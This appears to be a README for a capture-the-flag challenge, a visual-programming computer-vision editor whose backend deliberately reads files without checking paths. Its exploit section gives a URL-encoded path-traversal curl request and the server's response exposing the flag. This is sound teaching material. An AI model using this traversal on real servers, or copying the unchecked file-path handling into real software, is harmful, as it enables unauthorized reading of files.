



# challenge-cvedu

This challenge is about secure file access and injection of special chars in paths.

You are presented with an online code editor for computer vision. The editor allows Visual Programming, where every blocks represents a pure function. You are able to connect every block input and outputs with dragging.



When selecting (by clicking) a block you are able to edit its Typescript code using the embedded Monaco editor. Once you select the play button it will compile the code and run it in the selected block.



The goal of a normal user is to write the missing parts of the block's code, building a chroma key algorithm.

If the user gets stuck he's able to click the *SOLUTION* button, that completes the missing parts of the code, giving the intended solution. This functionality is protected by a password, that is expected to be given to the student by the teacher. To prevent a user from guessing the password (in the security challenge context) it is generated from a random source.

The challenge that a user has to face is retrieve the solutions for the blocks code, without knowing the password. Once the user reads the solutions he will found the flag as a comment in the code.

## Project Structure

The project is managed using Lerna workspaces and is divided as following:

- `packages/backend`: The code for the backend, written for Node.JS using Express
- `packages/common`: Types and common code for the backend and the frontend
- `packages/frontend`: The code for the frontend, build using create-react-app

When in production mode the Express app server the static files for the React App.

## Instructions

For __development__ it's possible to use the live reload feature, using the `yarn dev` script.

For __production__ it's suggested to use Docker:

```bash
docker build -t challenge-cvedu .
docker run -p8080:8080 challenge-cvedu
```

This will start the server and expose the pages on port 8080.

### WARNING: Usage behind a reverse proxy

This challenge is based on exploiting url-encoded paths. Therefore it relies on having the url passed as there are to the backend.
I have noticed that, under some type of configurations, reverse proxies like Nginx are escaping urls before sending it to the target server. This makes the challenge unsolvable. Please make sure that the server is NOT url decoding the urls.

In Nginx, for example, it's necessary to omit the trailing slash from the `proxy_pass` rule.

## Exploit

When inspecting the request made by the client to the backend we can gain some insights about the interactions. There are XHR calls to three endpoints:

- `GET /templates`: retrieves all the blocks configuration
- `GET /template/:type/code`:  called for each block, retrieves the template code for that block
- `POST /template/:type/solution`: called when entering a solution password, tries to get the solution, returns 403 with wrong password



The big assumption that we have to make is about how the data is retrieved inside the server:

- If we have some kind of __database__ we may attack using SQL Injection
  - *We quickly rule out this hypothesis, since injecting any SQL string does not yields any effect*
- If the developer was lazy enough we may think that he's __reading files__ directly from the disk, using the files API.
  - If this is the case, we know that it's a pretty common mistake to not check the paths that we are reading. We assume no path escaping.
  - Since we have endpoints for code and solutions, we assume two directories at the same level with the same names.

Since it requires no password, we try to exploit the `GET /template/:type/code` HTTP command. We inject a path traversal, url escaped to prevent the router from failing to recognize it:

```bash
curl https://test.giuliozausa.dev/template/..%2Fsolutions%2FChromaComposite/code
```

Response:

```json
{"status":"ok","data":"// Enjoy your green screen!\n// Flag: DOTDOTSLASH-GOES-BRRR\n\nfunction ChromaComposite({\n  Mask,\n  FrameA,\n  FrameB,\n}: {\n  Mask: { data: boolean[]; width: number; height: number };\n  FrameA: ImageData;\n  FrameB: ImageData;\n}): { Frame: ImageData } {\n  // Copia i pixel dell'immagine\n  const newData = new ImageData(FrameA.width, FrameA.height);\n\n  for (let i = 0; i < FrameA.data.length; i += 4) {\n    if (Mask.data[i / 4]) {\n      newData.data[i] = FrameA.data[i];\n      newData.data[i + 1] = FrameA.data[i + 1];\n      newData.data[i + 2] = FrameA.data[i + 2];\n    } else {\n      newData.data[i] = FrameB.data[i];\n      newData.data[i + 1] = FrameB.data[i + 1];\n      newData.data[i + 2] = FrameB.data[i + 2];\n    }\n\n    newData.data[i + 3] = 255;\n  }\n\n  return { Frame: newData };\n}\n"}
```

We got our flag, that was hidden under a solution!

### Feedback from users

I have let some users try the challenge to gather some insights about its difficulty. I have found out that, without the source code or any info about the server file-reading behaviour, it can be really difficult to solve. It may be a good idea to suggest the users the fact that the server is reading files in two folders: `codes` and `solutions`.
